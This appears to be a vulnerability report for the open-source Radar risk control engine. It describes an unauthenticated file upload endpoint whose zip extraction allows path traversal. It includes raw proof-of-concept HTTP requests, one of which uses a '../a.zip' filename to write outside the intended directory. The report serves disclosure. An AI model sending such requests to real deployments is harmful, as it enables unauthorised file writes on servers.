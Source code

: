 radar Arbitrary file upload vulnerability

##### Vulnerability description:

Radar is an open-source lightweight real-time risk control engine. Radar has an arbitrary file upload vulnerability. Unauthenticated attackers can directly upload any file to the system.

https://github.com/wfh45678/radar

##### Version:

<= V1.0.8

##### Vulnerability Recurrence:

Interface：POST /services/v1/common/upload

Postman calls the interface and sets the file parameter value to compressed file and the key parameter value to machine in the request body.
![Image](https://github.com/user-attachments/assets/2f550982-0e7e-4bdd-8fd6-cd05f7174b6c)


After uploading the compressed file a.zip normally, it will be decompressed to the directory d://radar.
![Image](https://github.com/user-attachments/assets/94252eee-1a04-4373-a23e-65eb1a611748)

```
POST /services/v1/common/upload HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Connection: close
Cache-Control: no-cache
Host: localhost:6580
Content-Type: multipart/form-data; boundary=--------------------------739977417385369968549200
Content-Length: 464


----------------------------739977417385369968549200
Content-Disposition: form-data; name="file"; filename="a.zip"
Content-Type: application/zip


PK
```

Change the file name to ../a.zip， Cross over and decompress to D://.
![Image](https://github.com/user-attachments/assets/94a52084-96e8-471d-b51b-fb845ce7307e)


```
POST /services/v1/common/upload HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Connection: close
Cache-Control: no-cache
Host: localhost:6580
Content-Type: multipart/form-data; boundary=--------------------------739977417385369968549200
Content-Length: 464


----------------------------739977417385369968549200
Content-Disposition: form-data; name="file"; filename="../a.zip"
Content-Type: application/zip


PK
```

##### Vulnerability Analysis：

com.pgmmers.radar.util.ZipUtils#unZipIt does not filter paths, resulting in path traversal
![image](https://github.com/user-attachments/assets/68c22b1a-2092-4462-8a41-a5ffc8dd9741)










